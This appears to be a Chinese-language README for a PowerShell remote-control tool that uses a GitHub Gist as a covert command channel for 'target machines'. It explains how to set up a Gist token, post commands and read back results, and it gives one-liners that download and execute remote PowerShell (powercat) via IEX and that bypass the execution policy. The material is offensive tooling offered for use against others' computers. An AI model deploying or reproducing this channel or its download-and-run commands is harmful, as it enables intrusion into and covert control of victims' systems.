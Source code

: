 ###Powershell Github Shell
	Author:zshell
	Blog:http://www.0x7c.com
	Github:https://github.com/zlocal/Powershell-Github-Shell
	Demo Result Gist:https://gist.github.com/zlocal/1d449f3c195531c8cafbebfe808ea46e

使用方法：</br>
#### 1，创建github账户，访问https://github.com/settings/tokens/new，选中 gist   Create gists ，创建访问Gists的token.</br>
#### 2, 访问 https://gist.github.com/ ，创建一个Gist，属性最好为private,只有自己能访问查看结果，名称为cmd.例：</br>
为了展示，我设置了public https://gist.github.com/zlocal/1d449f3c195531c8cafbebfe808ea46e
		###### Command:"time /T"
		###### ReadFile:"c:/windows/temp/1.txt"
		###### WriteFile:"http://www.github.com/raw/1.zip c:/wnidows/temp/2.txt"
		###### Powershell:"Get-Process | Out-String"
		###### Command:"whoami"
其中
Command后是想要执行的cmd命令，功能已测试OK</br>
ReadFile是上传目标机器上的文件到Github，暂未实现</br>
WriteFile下载文件到目标机器，暂未实现</br></br>
Powershell后是可以执行的Powershell指令，暂未实现</br>

#### 3, 修改Powershell脚本的头部配置信息
$gistsUser="gitusername";		# github的用户名
$gistsApiToken="gittoken";		# 上步中得到的token ，例eed4239e439034a92fc4cbe0fbd2ca906999a9f1
$checkTime=60;				# 每次获取命令结果需要等待的时间，秒为单位

#### 4, 使powershell在目标机器上执行
Powershell执行方法
一句话远程加载 
```Powershell
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
```
一句话本地加载
```Powershell
powershell IEX ([System.IO.File]::readAllText('PowershellGitShell.ps1'));	//powershell
```
一句话文件执行
```Powershell
powershell -executionPolicy bypass -File "c:/test/PowershellGitShell.ps1"	//powershell
```
#### 5，可以修改cmd gist的内容，在$checkTime秒后刷新网页，结果会在评论中。结果需要使用URL DECODE解码。
